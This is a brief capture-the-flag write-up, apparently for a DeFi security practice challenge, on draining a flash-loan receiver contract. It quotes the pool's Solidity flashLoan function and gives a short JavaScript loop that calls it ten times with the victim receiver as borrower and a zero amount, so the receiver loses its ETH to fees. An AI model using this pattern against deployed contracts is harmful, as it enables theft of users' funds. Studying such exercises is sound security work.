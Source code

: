 # Goal
Drain all eth funds from the user

## Examning The Code
The fee is 1 ether, so for each time you call the flashLoan you must pay 1 ether.
The flashLoan function is call the receiver method:
```solidity
function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant {

        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= borrowAmount, "Not enough ETH in pool");


        require(borrower.isContract(), "Borrower must be a deployed contract");
        // Transfer ETH and handle control to receiver
        borrower.functionCallWithValue(
            abi.encodeWithSignature(
                "receiveEther(uint256)", // the receiver function
                FIXED_FEE
            ),
            borrowAmount
        );
        
        require(
            address(this).balance >= balanceBefore + FIXED_FEE,
            "Flash loan hasn't been paid back"
        );
    }
```
If we go to the FlashLoanReceiver.sol contract the reciever function is public and it is only checking from where is the function flashLoan is being send.

## Exploiting 
We can send the flashLoan function and add the address of the receiver as a borrower and make the account 0, so he will pay 1 fee, run this for 10 times and we will drain all the eth.

## Solution
```javascript
const attackContract = this.pool.connect(attacker);
        for(let i=0;i<10;i++)
        {
            await attackContract.flashLoan(this.receiver.address, 0);
        } 
```
